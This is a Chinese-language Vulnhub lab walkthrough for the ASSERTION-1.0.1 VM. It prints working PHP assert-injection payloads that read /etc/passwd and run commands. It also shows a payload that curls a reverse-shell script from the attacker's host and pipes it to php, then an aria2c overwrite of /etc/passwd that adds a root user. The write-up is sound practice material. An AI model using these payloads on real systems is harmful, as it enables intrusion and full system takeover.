 ```yaml
---
layer: article
title: Vulnhub 495	ASSERTION-1.0.1
tags: pentest vulnhub Walkthrough
---
```


考点：LFI,GTFOBins 

靶机链接：<https://www.vulnhub.com/entry/assertion-101,495/>

## 环境配置

| 名称            | IP             |
| --------------- | -------------- |
| Kali Linux      | 192.168.88.128 |
| ASSERTION-1.0.1 | 192.168.88.129 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.129
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Assertion
```

### WEB测试

#### 端口80

![1](https://static.iihack.com/vulnhub/495/1.jpg)

![2](https://static.iihack.com/vulnhub/495/2.jpg)

大概率存在LFI，数次尝试失败，[盲猜asset的LFI，参考](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)

```bash
http://192.168.88.129/index.php?page=./blog' and die(show_source('/etc/passwd')) or '
http://192.168.88.129/index.php?page=./blog' and die(system('pwd')) or '
```

![3](https://static.iihack.com/vulnhub/495/3.jpg)

![4](https://static.iihack.com/vulnhub/495/4.jpg)

## 获得权限

本地Kali 监听端口444

修改`/usr/share/laudanum/php/php-reverse-shell.php`中的`ip`和`port`，使用`python -m http.server 80`开启web服务

下载反弹shell脚本并执行

```bash
http://192.168.88.129/index.php?page=./blog' and die(system("curl http://192.168.88.128/php-reverse-shell.php|php")) or '
```

![5](https://static.iihack.com/vulnhub/495/5.jpg)

成功接收反弹shell


## 提权

运行linpeas.sh发现

![6](https://static.iihack.com/vulnhub/495/6.jpg)

[上GTFOBins查询了一下](https://gtfobins.github.io/gtfobins/aria2c/)

可以aria2c覆盖`/etc/passwd`文件

先查看`$ cat /etc/passwd`内容，使用openssl生成密码hash，密码是`password`

![7](https://static.iihack.com/vulnhub/495/7.jpg)

再在本地web目录passwd文件中添加

```bash
ii:$1$Pn/iC2y8$HoH1HDv3n0uGse8fQUgvR.:0:0:root:/root:/bin/bash
```
覆写靶机`passwd`文件

```bash
$ aria2c -o /etc/passwd "http://192.168.88.128/passwd"  --allow-overwrite=true
```

写入后切换ii，密码输入`password`

![8](https://static.iihack.com/vulnhub/495/8.jpg)
